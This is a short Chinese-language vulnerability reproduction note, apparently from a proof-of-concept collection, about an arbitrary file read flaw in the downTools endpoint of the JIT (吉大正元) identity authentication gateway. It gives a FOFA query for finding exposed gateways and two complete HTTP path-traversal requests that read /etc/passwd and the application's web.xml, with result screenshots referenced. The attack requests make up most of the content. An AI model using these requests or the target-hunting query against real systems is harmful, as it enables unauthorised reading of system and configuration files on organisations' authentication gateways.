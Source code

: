# 吉大正元身份认证网关downtools存在任意文件读取漏洞

# 一、漏洞简介
 吉大正元身份认证网关是提供内部网络的接入控制以及对接入用户进行强身份认证和审计服务的产品，解决用户使用应用系统时涉及的身份验证、信息保密、权限控制等安全问题。吉大正元身份认证网关downtools存在任意文件读取漏洞。

# 二、影响版本
+ 吉大正元身份认证网关

# 三、资产测绘
+ fofa`title="吉大正元身份认证网关"`
+ 特征

![1729778241492-237326e1-b7f2-4329-9dec-df7fe40950e9.png](./img/XSH04fQGxTAZEfhK/1729778241492-237326e1-b7f2-4329-9dec-df7fe40950e9-065463.png)

# 四 、漏洞复现
```java
GET /jit_pnx_portal/downTools?fileName=../../../../../../../../../etc/passwd HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

![1729778389306-85ec46c0-c9fc-4e67-8427-ad027b4d4f80.png](./img/XSH04fQGxTAZEfhK/1729778389306-85ec46c0-c9fc-4e67-8427-ad027b4d4f80-870916.png)

```java
GET /jit_pnx_portal/downTools?fileName=../../../../../../../../../home/gateway/src/main/webapp/WEB-INF/web.xml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:131.0) Gecko/20100101 Firefox/131.0
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

![1729781375496-d3cb2e1b-69b0-4c2b-999e-ba4fb38cf9da.png](./img/XSH04fQGxTAZEfhK/1729781375496-d3cb2e1b-69b0-4c2b-999e-ba4fb38cf9da-716840.png)



> 更新: 2024-11-27 10:04:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ercgu609qmwqlr09>